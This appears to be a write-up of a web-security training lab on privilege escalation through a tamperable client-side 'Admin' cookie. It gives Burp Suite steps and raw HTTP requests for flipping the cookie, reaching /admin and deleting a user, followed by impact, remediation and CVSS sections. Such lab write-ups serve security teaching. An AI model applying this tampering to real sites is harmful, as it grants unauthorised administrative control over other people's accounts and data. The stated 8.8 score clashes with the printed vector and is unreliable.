





# Title: User Role Controlled by Request Parameter

# **Description**

The application implements role-based access control to restrict access to administrative functions. The admin panel at `/admin` is intended to be accessible only to users with administrative privileges. However, the application uses an insecure method to track user roles: a client-side cookie named `Admin` with a boolean value.

When a user successfully logs in, the server responds with a `Set-Cookie` header that includes `Admin=false` for regular users. This cookie is then sent with subsequent requests and is used by the server to determine whether the user has administrative privileges. Since the cookie is stored client-side and not cryptographically protected, an attacker can easily modify its value.

By intercepting the login response and changing the `Admin` cookie value from `false` to `true`, an attacker can elevate their privileges to administrator. This allows unauthorized access to the admin panel and the ability to perform privileged actions, such as deleting user accounts.

# **Steps to Exploit**

1. Log in to your own account (`wiener:peter`) using Burp Suite's browser.
2. In Burp Suite, ensure interception is turned on for both requests and responses.
3. Submit the login form and capture the `POST /login` request.
4. Forward the request to the server and intercept the response.
5. In the intercepted response, locate the `Set-Cookie` header that sets the `Admin` cookie.
6. Change the value of the `Admin` cookie from `false` to `true`.
7. Forward the modified response to the browser.
8. Navigate to `/admin` to access the admin panel.
9. In the admin panel, locate the option to delete the user `carlos`.
10. Click the delete button or navigate to the delete endpoint to remove the user.
11. The lab is solved when Carlos is successfully deleted.

# **Proof of Concept**

**Step 1 – Login request:**
```
POST /login HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

username=wiener&password=peter
```

**Step 2 – Original login response (intercepted):**
```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: Admin=false; Path=/
Set-Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123; Path=/
```

**Step 3 – Modified login response:**
```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: Admin=true; Path=/
Set-Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123; Path=/
```

**Step 4 – Access admin panel:**
```
GET /admin HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123; Admin=true
```

**Step 5 – Delete carlos:**
```
GET /admin/delete?username=carlos HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123; Admin=true
```










# **Impact**

The insecure use of a client-side cookie for role management has severe security implications:

**Privilege Escalation:**
- Any user can elevate their privileges to administrator by simply modifying the cookie value.
- No special skills or tools are required beyond basic browser developer tools.

**Unauthorized Administrative Access:**
- Attackers can access the admin panel and all administrative functions.
- This includes user management, system configuration, and sensitive data access.

**Complete Account Takeover:**
- Administrators can create, modify, or delete any user account.
- All user accounts in the system are at risk of compromise.

**Data Breach:**
- Administrative access provides complete visibility into all user data.
- Personal information, financial data, and system secrets can be exfiltrated.

**System Compromise:**
- In some cases, administrative access may allow further compromise of the underlying infrastructure.
- File uploads, command execution, or database manipulation may become possible.

# **Mitigation / Remediation**

1. **Never Trust Client-Side Role Indicators:**
   - Role and privilege information must be stored server-side.
   - Do not use client-side cookies for authorization decisions.

2. **Implement Server-Side Session Management:**
   - Store user roles in server-side session data.
   - Use secure session tokens that cannot be tampered with.

3. **Validate Authorization on Every Request:**
   - Implement proper access control checks on all protected endpoints.
   - Never rely on client-supplied values for security decisions.

4. **Use Signed Cookies:**
   - If client-side cookies are necessary, use cryptographic signatures.
   - Ensure cookies are tamper-proof and cannot be modified by clients.

5. **Implement Proper Access Control:**
   - Use role-based access control (RBAC) with server-side enforcement.
   - Apply the principle of least privilege to all user accounts.

6. **Regular Security Audits:**
   - Conduct regular penetration testing to identify authorization flaws.
   - Review all access control implementations for proper enforcement.

# **CVSS Justification**

| Metric | Value | Justification |
|---|---|---|
| Attack Vector | Network | Exploited remotely via standard HTTP requests |
| Attack Complexity | Low | Modifying a cookie value requires minimal technical skill |
| Privileges Required | Low | Only requires valid credentials for a low-privileged account |
| User Interaction | None | The exploit works without user interaction |
| Scope | Changed | Attacker gains administrative privileges |
| Confidentiality Impact | High | All user data and system information is exposed |
| Integrity Impact | High | The attacker can modify or delete any data |
| Availability Impact | High | User accounts can be deleted or locked |

**CVSS Score: 8.8 (High)**

`CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`

This high score reflects the severe nature of the vulnerability, which allows complete system compromise with minimal effort and only requires valid credentials for a standard user account.